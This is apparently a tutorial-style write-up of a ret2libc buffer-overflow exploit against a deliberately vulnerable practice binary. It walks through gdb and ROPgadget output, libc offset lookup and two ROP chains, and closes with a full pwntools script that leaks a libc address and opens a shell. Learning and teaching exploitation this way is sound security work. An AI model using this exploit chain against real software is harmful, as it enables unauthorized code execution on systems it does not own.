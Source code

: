 # Another awsome breakdown provided by @legacyy.  I was able to perform my first ret2libc thanks to him.
https://www.legacyy.xyz/  
https://twitter.com/0xLegacyy  

The source code of ret2libc

```c
#include <stdio.h>


int main(int argc, char **argv)
{
    char buf[64]; 
	/* buf variable takes 64 bytes of data */

    puts("Welcome! This is a ret2libc ooooooooo spooky");

    read(0, buf, 1024);
	/* read function takes reads user_input of buf. */

    return 0;
}
```

### Reviewing the list of functions using gdb debugger by typing `info func`.

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  puts@plt
0x0000000000401060  read@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x00000000004011a0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401218  _fini
```

### For this case, we will need to take advantage of a libc library by leaking the addresses of read, puts and bin_sh string.  To do this, I will need to first find the initial offset for the read function from the global offset table. I can find this inside `.got.plt` in ghidra.

```
read function => 0x404020
```

### Using ROPGadget to retrieve offset of pop_rdi gadget:

```
root@kali:~/recon/ret2lib# ROPgadget --binary=./ret2libc | grep rdi
0x00000000004010c6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x0000000000401203 : pop rdi ; ret

pop_rdi => 0x401203
```

### retrieving offsets of your read, system and bin_sh offsets from your libc file (x64)

```
I will need to now retrieve my libc offsets using a useful tool named libc-database from github:

git clone https://github.com/niklasb/libc-database.git
cd libc-database
./add /usr/lib/x86_64-linux-gnu/libc.so.6
./identify /usr/lib/x86_64-linux-gnu/libc.so.6 # Will output local-XXXXXXXXXXXXXXXXX
./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh

1. ./add /usr/lib/x86_64-linux-gnu/libc.so.6
Adding local libc /usr/lib/x86_64-linux-gnu/libc-2.31.so (id local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88  /usr/lib/x86_64-linux-gnu/libc-2.31.so)
  -> Writing libc /usr/lib/x86_64-linux-gnu/libc-2.31.so to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.so
  -> Writing symbols to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.symbols
  -> Writing version info

2. ./identify /usr/lib/x86_64-linux-gnu/libc.so.6
local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88

3. ./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh
offset_read = 0x00000000000eee80
offset_system = 0x0000000000048e50
offset_str_bin_sh = 0x18a152
```

### found the following libc addresses:
```
offset_read       => 0xeee80
offset_system	  => 0x48e50
offset_str_bin_sh => 0x18a152
```

### To leak the libc_read address, I will need to initialize the rop chain.

```py
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main
```

### sending the buf payload to the binary by typing `p.sendline(buf)`

### Cleaning up the leaked address

`leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))`

- To properly clean the leaked address you must first retrieve it by typing `p.recvuntil(b"\n")`. Then to remove the newline at the end of the address by typing `[:-1]`.
- Then you will need to pad the address to equal 8 bytes to the left, this can be done by using `ljust`. `p.recvuntil(b"\n")[:-1].ljust(8, b"\x00")`
- After padding the address you can unpack the address by using `u64`.

Once cleaned the leaked_libc_read should look like `0x7fe39de9be80`

### Finding your libc_base address

To find your libc_base address you can minus `offset_set` by `leaked_libc_read`.

`libc_base = leaked_libc_read - libc_read`

### Proceeding with adding `libc_system` and `libc_bin_sh` to get your system/bin_sh pointer.

`system_ptr = libc_base + system_libc`

`bin_sh_ptr = libc_base + libc_bin_sh`

### Now that you have the necessary functions to call system, create a new rop chain and call system and get a shell. *Reminder* You will need to ensure the rop chain equals to the multiple of 16 so the chain we are executing was not originally a multiple of 16.  To resolve this, we had found a ret; gadget to make it 32 bytes which makes it a multiple of 16 `32 / 16 = 2`.

```py
buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.
```

### Next, send the new rop chain payload to the binary and execute your system shell.

```bash
python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 5862
Leaked libc => 0x7fdbf2255e80
libc base => 0x7fdbf2167000
system pointer => 0x7fdbf21afe50
bin_sh pointer => 0x7fdbf22f1152

[*] Switching to interactive mode
$ whoami
root

```

### My exploit script

```py
from pwn import *

p = process("./ret2libc")

main_ptr = 0x401156 # offset for main().
puts_ptr = 0x401050 # offset for puts().
pop_rdi = 0x401203 # offset for pop rdi; ret;
read_got = 0x404020 # offset for read() in the global offset table
ret_gt = 0x40101a # ret gadget

libc_read = 0xeee80 # libc read function offset from libc.so.6
system_libc = 0x48e50 # libc system function offset from libc.so.6
libc_bin_sh = 0x18a152 # libc /bin/sh string offset from libc.so.6

#Receive initial text
p.recvline()

# ROP Chain #1
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main

# send ROP chain
p.sendline(buf)

# receive line until a new line and retrieve the leaked libc address.  ljust by adding padding nullbytes until its 8 bytes long then unpack the address so that the address.
leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))

# Successfully retrieved leaked libc
print(f"Leaked libc => {hex(leaked_libc_read)}")

# Retrieve data
p.recvline()

# Getting the libc base address by minus leaked libc offset against libc_read
libc_base = leaked_libc_read - libc_read
# Getting system pointer by adding system_libc to libc_base
system_ptr = libc_base + system_libc
# Getting /bin/sh pointer by adding libc_bin_sh to libc_base
bin_sh_ptr = libc_base + libc_bin_sh

print(f"libc base => {hex(libc_base)}")
print(f"system pointer => {hex(system_ptr)}")
print(f"bin_sh pointer => {hex(bin_sh_ptr)}")
print()

buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.

# send new rop chain
p.sendline(buf)
p.interactive()
```
